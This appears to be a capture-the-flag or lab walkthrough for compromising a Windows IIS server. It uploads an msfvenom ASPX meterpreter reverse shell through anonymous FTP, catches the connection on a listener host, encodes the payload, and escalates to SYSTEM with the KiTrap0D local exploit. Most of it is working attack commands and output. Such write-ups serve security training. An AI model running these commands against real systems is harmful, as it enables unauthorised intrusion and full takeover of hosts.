 
## 1. Setup & Discovery

- **Anonymous FTP login allowed**
    
- **FTP root exposed via web service** (Port 80)
    
- **Microsoft IIS** running on web service
    
- IIS supports `.aspx` execution → uploadable reverse shell possible
    

---

## 2. Scan the Target

```
nmap -sV -T4 -p- 10.10.10.5
```

**Open Ports:**

```
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
```

---

## 3. FTP Access

```
ftp 10.10.10.5
Name: anonymous
Password: [any]
230 User logged in.
```

**Directory Listing Example:**

```
03-17-17  welcome.png
aspnet_client/
iisstart.htm
```

_Confirmed:_ Can upload `.aspx` payloads.

---

## 4. Generate Payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx
```

**Output:**

```
Payload size: 341 bytes
Final file size: 2819 bytes
Format: ASPX
Architecture: x86
```

---

## 5. Deploy Payload

Upload `reverse_shell.aspx` via FTP, then browse to:

```
http://10.10.10.5/reverse_shell.aspx
```

_Note:_ The page looks blank, but the payload executes silently.

---

## 6. Setup Listener

```
msfconsole -q
msf6 > use multi/handler
msf6 > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 > set LHOST 10.10.14.5
msf6 > set LPORT 1337
msf6 > run
```

---

## 7. Gain Access

```
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened
meterpreter > getuid
Server username: IIS APPPOOL\Web
```

_Success: Meterpreter reverse shell established._

---

## 8. If Session Dies Quickly

Encode payload for stability:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -e x86/shikata_ga_nai -f aspx > reverse_shell_encoded.aspx
```

---

## 9. Privilege Escalation

### Use Local Exploit Suggester

```
msf6 > search local exploit suggester
msf6 > use post/multi/recon/local_exploit_suggester
msf6 post(...) > set SESSION 2
msf6 post(...) > run
```

**Common Recommendations:**

- `bypassuac_eventvwr`
    
- `ms10_015_kitrap0d`
    
- `ms13_081_track_popup_menu`
    

---

### Exploit Example: KiTrap0D

```
msf6 > use exploit/windows/local/ms10_015_kitrap0d
msf6 > set SESSION 3
msf6 > set LHOST 10.10.14.5
msf6 > set LPORT 1338
msf6 > run
```

**Result:**

```
[*] Meterpreter session 4 opened
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

_Privilege escalated to SYSTEM level._

---

## 10. Useful Resources

- **MSFVenom Payload Cheat Sheet**
    
- **Metasploit Unleashed** – Offensive Security
    
- **Metasploit: The Penetration Tester’s Guide** – No Starch Press